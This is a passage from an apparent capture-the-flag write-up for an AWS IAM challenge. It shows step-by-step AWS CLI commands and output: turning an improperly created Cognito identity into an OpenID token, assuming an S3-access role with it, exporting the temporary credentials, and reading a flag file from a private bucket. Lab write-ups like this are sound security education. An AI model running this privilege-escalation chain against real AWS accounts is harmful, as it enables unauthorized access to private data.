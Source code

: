 This `IdentityId` can be provided back to Cognito to receive a token that for authentication to other AWS services from `get-open-id-token`:

```bash
$ aws cognito-identity get-open-id-token --identity-id us-east-1:6626f2bf-6854-408d-aa01-be0a3d9357ef
{
    "IdentityId": "us-east-1:6626f2bf-6854-408d-aa01-be0a3d9357ef",
    "Token": "[...]"
}
```

The catch: Since this account has been authenticated (as a user that was illicitly created!), the account can now `AssumeRoleWithWebIdentity`**.**

Combining the known role ARN provided for this challenge (above) with the `--web-identity-token` (`Token` from the previous command) and a specified arbitrary `--role-session-name`, the credentials for a new session with this role are provided:

```bash
$ aws sts assume-role-with-web-identity --role-arn arn:aws:iam::092297851374:role/Cognito_s3accessAuth_Role --role-session-name test --web-identity-token "[...]"
{
    "Credentials": {
        "AccessKeyId": "ASIA[...]",
        "SecretAccessKey": "[...]",
        "SessionToken": "[...]",
        "Expiration": "2023-06-23T14:42:44+00:00"
    },
    "SubjectFromWebIdentityToken": "us-east-1:6626f2bf-6854-408d-aa01-be0a3d9357ef",
    "AssumedRoleUser": {
        "AssumedRoleId": "AROARK7LBOHXASFTNOIZG:test",
        "Arn": "arn:aws:sts::092297851374:assumed-role/Cognito_s3accessAuth_Role/test"
    },
    "Provider": "cognito-identity.amazonaws.com",
    "Audience": "us-east-1:b73cb2d2-0d00-4e77-8e80-f99d9c13da3b"
```

By using these credentials in a local terminal session, full access to the storage bucket is now possible (as the role has access to S3) and the flag is obtained:

```bash
$ export AWS_ACCESS_KEY_ID=ASIA[...]
$ export AWS_SECRET_ACCESS_KEY=[...]
$ export AWS_SESSION_TOKEN="[...]"
$ aws s3 ls
2023-06-04 13:07:29 tbic-wiz-analytics-bucket-b44867f
2023-06-05 09:07:44 thebigiamchallenge-admin-storage-abf1321
2023-06-04 12:31:02 thebigiamchallenge-storage-9979f4b
2023-06-05 09:28:31 wiz-privatefiles
2023-06-05 09:28:31 wiz-privatefiles-x1000
$ aws s3 ls s3://wiz-privatefiles-x1000
2023-06-05 15:42:27       4220 cognito2.png
2023-06-05 09:28:35         40 flag2.txt
$ aws s3 cp s3://wiz-privatefiles-x1000/flag2.txt -
{wiz:open-sesame-or-shell-i-say-openid}
```
